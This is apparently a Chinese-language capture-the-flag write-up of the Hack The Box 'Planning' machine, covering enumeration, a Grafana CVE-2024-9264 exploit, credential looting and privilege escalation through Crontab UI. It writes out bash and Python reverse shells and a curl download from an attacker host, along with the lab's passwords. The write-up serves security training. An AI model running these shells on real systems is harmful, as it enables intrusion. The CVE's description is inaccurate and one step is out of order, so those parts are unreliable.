


> As is common in real life pentests, you will start the Planning box with credentials for the following account: `admin` / `0D5oT70Fq13EvB5r`

## Reconnaissance

起手先用 Nmap 掃描目標，看看有開那些服務

```shell
➜ mkdir nmap
➜ sudo nmap -A 10.10.11.68 -vvv -oA nmap/first
```

```
Nmap scan report for 10.10.11.68
Host is up, received echo-reply ttl 63 (0.15s latency).
Scanned at 2025-06-04 05:19:41 EDT for 708s
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMv/TbRhuPIAz+BOq4x+61TDVtlp0CfnTA2y6mk03/g2CffQmx8EL/uYKHNYNdnkO7MO3DXpUbQGq1k2H6mP6Fg=
|   256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKpJkWOBF3N5HVlTJhPDWhOeW+p9G7f2E9JnYIhKs6R0
80/tcp open  http    syn-ack ttl 63 nginx 1.24.0 (Ubuntu)
|_http-title: Did not follow redirect to http://planning.htb/
|_http-server-header: nginx/1.24.0 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Device type: general purpose|router
Running: Linux 5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 5.0 - 5.14, MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
TCP/IP fingerprint:
OS:SCAN(V=7.95%E=4%D=6/4%OT=22%CT=1%CU=38091%PV=Y%DS=2%DC=T%G=Y%TM=68401271
OS:%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=109%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M552ST11NW7%O2=M552ST11NW7%O3=M552NNT11NW7%O4=M552ST11NW7%O5=M552ST11
OS:NW7%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(
OS:R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%R
OS:UCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 29.497 days (since Mon May  5 17:36:31 2025)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=260 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   151.93 ms 10.10.14.1
2   152.12 ms 10.10.11.68
```

初步掃描的結果，只有 port 22、80 開啟。ssh 在無法得知帳號密碼的情況下，沒有辦法登入主機，題目給的帳號密碼也不是 ssh 的（才沒那麼好康）。先嘗試打開網頁看看有沒有地方可以突破。打開後發現頁面會被重新導向回 <http://planning.htb>。


### Solving DNS Resolution

這個問題可以透過修改 `/etc/hosts` 偽造 DNS 解析解決。

```
10.10.11.68     planning.htb
```

重新刷新頁面後就可以正常訪問網站。雖然有使用 gobuster 枚舉路徑，但都找不到可以利用的方向，卡了很久。突然想起之前看到的一句話，雖然已經忘記出處了：

> 假如你找不到漏洞，那肯定就是枚舉的不夠多

### Subdomain Enumeration

我們接著嘗試枚舉 subdomain。透過簡單測試可以發現非有效域名的 response 長度是 178，可以用 `-fs` 參數篩選掉它。

```shell
➜ ffuf -u http://planning.htb/ -H "Host:FUZZ.planning.htb" -w /usr/share/seclists/Discovery/DNS/namelist.txt -c -t 50 -fs 178
```

```

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://planning.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/namelist.txt
 :: Header           : Host: FUZZ.planning.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 178
________________________________________________

grafana                 [Status: 302, Size: 29, Words: 2, Lines: 3, Duration: 160ms]
:: Progress: [151265/151265] :: Job [1/1] :: 334 req/sec :: Duration: [0:07:58] :: Errors: 0 ::
```

運氣很好有中一個，一樣去 `/etc/hosts` 修改紀錄。

```
10.10.11.68     grafana.planning.htb
```

## Discovering Grafana Vulnerability

打開網頁後是一個 Grafana 登入頁面。可以注意到右下角有標上版本號（`v11.0.0`），賺爛了。

> Grafana是一個跨平台、開源的資料視覺化網路應用程式平台。使用者組態連接的資料來源之後，Grafana可以在網路瀏覽器里顯示資料圖表和警告。


在這裡用題目給的帳號密碼就可以成功登入，但沒有什麼可以利用的目標，所以只好嘗試去挖人家寫好的 PoC。

```
grafana v11.0.0 cve
```

### Exploiting CVE-2024-9264

透過搜尋可以找到這個 GitHub repo：[nollium/CVE-2024-9264](https://github.com/nollium/CVE-2024-9264)。CVE-2024-9264 是 Grafana v11.0.0 中的一個嚴重安全漏洞，它允許經過身份驗證的攻擊者通過利用 Grafana 的外掛系統執行遠端程式碼。該漏洞存在於 Grafana 處理外掛簽名驗證的邏輯中，攻擊者可以通過構造特殊的請求繞過簽名檢查，從而在目標系統上執行任意命令。

我們可以用這個 PoC 建立一個 reverse shell 連線：

```shell
➜ git clone https://github.com/nollium/CVE-2024-9264.git
➜ ./CVE-2024-9264/CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'bash -c "bash -i >& /dev/tcp/10.10.14.88/4444 0>&1"' http://grafana.planning.htb/
```

另外一邊使用 `nc` 監聽就可以拿到控制權了。

```shell
➜ nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.88] from (UNKNOWN) [10.10.11.68] 48284
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@7ce659d667d7:~#
```

### System Investigation

接著使用 updog 在本地快速建立檔案 http server，然後再目標主機 curl linEnum.sh 過去。

```shell
➜ updog -p 8080
```

```shell
enzo@planning:~$ curl -O http://10.10.14.88:8080/LinEnum.sh
```

執行完畢後可以在報告最尾端看到他發現了 `/.dockerenv`，代表我們有可能在 docker 容器裡面，必須想辦法取得真正目標主機的控制權。

```
[+] Looks like we're in a Docker container:
-rwxr-xr-x 1 root root 0 Apr  4 10:23 /.dockerenv
```

## Container Escape and Lateral Movement

不過好消息是，在容器的 env 變數中發現了一組帳號密碼。

```
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
```

再重新嘗試用這組帳號密碼登入 ssh，便成功取得了 enzo 的 shell。在同一個目錄中也成功拿到了 user flag。



### Internal Service Discovery

一樣偷渡 LinEnum.sh 過去枚舉，發現在 localhost 上有開一些服務的 port。

```shell
enzo@planning:~$ netstat -tulnp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.54:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:42329         0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:33060         0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.54:53           0.0.0.0:*                           -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
```

為了確定每個端口上運行的服務類型，我使用 curl 和 nc 工具進行簡單測試。通過觀察回應內容和連接行為，我確定了以下服務：

- 3306: MySQL 資料庫服務
- 42329: 未知 HTTP 服務（回應包含 HTML 內容）
- 33060: MySQL X Protocol
- 3000: Grafana 網頁介面
- 8000: HTTP 服務，帶有 Basic 認證

其中 port 8000 看起來最有潛力，因為它是一個帶認證的管理類服務，很可能具有高權限功能。

### SSH Tunneling to Internal Services

因為這些服務只監聽在 localhost，無法從外部直接訪問，所以需要使用 SSH 隧道將目標主機上的服務轉發到我們的本地機器。我選擇先轉發 port 8000，因為它似乎是一個具有 Basic 認證的 HTTP 服務，最有可能是個管理界面。

```shell
➜ ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

發現存取網頁需要帳號密碼，只好認命回去乖乖找。

## Privilege Escalation to Root

經歷了一番搜尋後，在 `/opt/crontabs/crontab.db` 中找到了 root 的密碼。

```shell
enzo@planning:/opt/crontabs$ cat crontab.db | jq
```

```json
{
  "name": "Grafana backup",
  "command": "/usr/bin/docker save root_grafana -o /var/backups/grafana.tar && /usr/bin/gzip /var/backups/grafana.tar && zip -P P4ssw0rdS0pRi0T3c /var/backups/grafana.tar.gz.zip /var/backups/grafana.tar.gz && rm /var/backups/grafana.tar.gz",
  "schedule": "@daily",
  "stopped": false,
  "timestamp": "Fri Feb 28 2025 20:36:23 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740774983276,
  "saved": false,
  "_id": "GTI22PpoJNtRKg0W"
}
{
  "name": "Cleanup",
  "command": "/root/scripts/cleanup.sh",
  "schedule": "* * * * *",
  "stopped": false,
  "timestamp": "Sat Mar 01 2025 17:15:09 GMT+0000 (Coordinated Universal Time)",
  "logging": "false",
  "mailing": {},
  "created": 1740849309992,
  "saved": false,
  "_id": "gNIRXh1WIc9K7BYX"
}
```

### Utilizing Crontab UI Service

使用從 `crontab.db` 中找到的密碼 `P4ssw0rdS0pRi0T3c` 成功登入 port 8000 的服務後，發現這是一個名為 Crontab UI 的網頁服務，用於管理系統上的定時任務。由於這個服務以 root 權限運行，我們可以利用它來執行任意命令。在這裡透過新增 reverse shell 的 cron job 來取得 root 權限的 shell。

```shell
python3 -c 'import os,socket,subprocess;s=socket.socket();s.connect(("10.10.14.88",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];subprocess.call(["/bin/bash","-i"])'
```

新增完成後按下 `Run now`，就可以透過監聽 port 4444 取得 root reverse shell。在 `/root` 目錄中輕鬆拿到了 root flag。


